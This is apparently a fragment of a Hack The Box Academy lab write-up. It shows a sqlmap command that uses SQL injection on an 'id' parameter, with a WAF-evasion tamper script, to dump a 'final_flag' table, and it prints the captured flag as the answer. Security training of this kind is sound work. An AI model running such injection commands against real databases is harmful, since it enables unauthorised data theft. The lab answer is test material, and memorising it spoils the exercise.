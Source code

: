```javascript
-p id --batch --tamper=between -D production -T final_flag --dump --no-cast --threads 10
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req -p id --batch --tamper=between -D production -T final_flag --dump --no-cast --threads 10

[SNIP]

Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+

[SNIP]
```

**Answer**

```
HTB{n07_50_h4rd_r16h7?!}
```

---
---
